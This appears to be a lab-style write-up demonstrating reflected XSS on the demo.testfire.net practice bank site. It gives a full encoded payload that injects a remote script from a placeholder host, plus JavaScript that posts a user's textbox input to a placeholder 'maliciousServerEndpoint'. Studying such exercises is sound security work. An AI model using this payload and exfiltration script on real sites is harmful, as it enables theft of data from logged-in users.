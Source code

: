 # Reflective XSS

## How Logged In User Should be Targeted

The logged in user already has a valid session with the Wep Application, hence, the user can execute the internal URLs or links without any consent to login. Therefore any URL posted on the browser by the URL can take him directly within the application, due to a still having a valid session.


## Victim Web Page or Link

We will be using the link `http://demo.testfire.net/bank/queryxpath.jsp` to conduct the refective XSS. It is perfect candidate for the attack because it accepts the parameter in form of key-value pair with the name `query`, and anything after `query=` is considered as the value of the repective parameter key name.


## Malicious URL

The Malicious URL to send the detial to the designated server looks like below:

`https://demo.testfire.net/bank/queryxpath.jsp?query=%22%20placeholder=%22Put%20your%20query%20here%22%20/%3E%20%3Cscript%20src=%22https://ajax.googleapis.com/ajax/libs/jquery/3.4.1/jquery.min.js%22%3E%3C/script%3E%20%3Cscript%20src=%22https://maliciousScriptURL/maliciousScript.js%22%3E%3C/script%3E%20%3Cinput%20value=%22Query%22%20type=%22button%22%20%20onclick=%22maliciousScript()%22%20/%3E%20%3Cinput%20type=%22hidden%22%20value=`

The simple formatting of the above Malicious URL is given below:
```
http://demo.testfire.net/bank/queryxpath.jsp?query=" placeholder="Put your query here" />
 <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.4.1/jquery.min.js"></script>
 <script src="https://maliciousScriptURL/maliciousScript.js"></script>


<input value="Query" type="button"  onclick="maliciousScript()" /> 

<input type="hidden" value=
```

## Malicious Script

The Malicious Script loaded fetch via link `https://maliciousScriptURL/maliciousScript.js` by the web page upon infected by refective XSS has below source code:

```
function maliciousScript() {
	var val = document.getElementById("query").value;
	$.post("maliciousServerEndpoint",
	  {
		"feedbackText": val
	  });
	 window.location = "http://demo.testfire.net/bank/queryxpath.jsp?query=" + val;
}
```

I wasn't able to inject the below code section within the URL due character encoding limitation.
```
<script>
function maliciousScript() {
	var val = document.getElementById("query").value;
	$.post("maliciousServerEndpoint",
	  {
		"feedbackText": val
	  });
	 window.location = "http://demo.testfire.net/bank/queryxpath.jsp?query=" + val;
}
</script>
```

Malicious function with the name `maliciousScript` reads the value from textbox and send the input value to the `maliciousServerEndpoint`.

Screenshot:
![Screenshot](img/Reflective_XSS_Source_Code.png)